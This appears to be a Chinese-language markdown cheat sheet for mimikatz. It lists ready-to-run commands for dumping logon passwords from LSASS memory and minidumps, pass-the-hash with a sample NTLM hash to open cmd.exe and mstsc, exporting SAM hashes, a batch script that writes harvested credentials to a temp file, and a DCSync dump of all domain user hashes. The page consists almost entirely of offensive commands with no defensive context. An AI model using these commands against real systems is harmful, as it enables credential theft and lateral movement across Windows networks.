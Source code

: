 # mimikatz

官方 Github：https://github.com/gentilkiwi/mimikatz

## 获取登录凭证信息

```
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords" exit
```

```
privilege::debug
sekurlsa::logonpasswords
```

## lsass.exe 导出凭据

```
mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

## mimikatz PTH 传递 cmd

```
mimikatz "privilege::debug" "sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 /run:cmd.exe" "exit"
```

## mimikatz PTH 传递 mstsc

```
mimikatz "privilege::debug"  "sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 /run:mstsc.exe /restrictedadmin" "exit"
```

```
privilege::debug
sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 "/run:mstsc.exe /restrictedadmin"
```

## SAM 数据库导出凭据

```
mimikatz "log" "lsadump::sam /sam:sam.hive /system:system.hive"  "exit"
```


## bat 脚本获取凭据

```
@echo off
cd /d D:\tools\
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > C:\windows\temp\log.txt
```

## 导出域内所有用户hash

```
mimikatz.exe "lsadump::dcsync /domain:test.com /all /csv" exit
```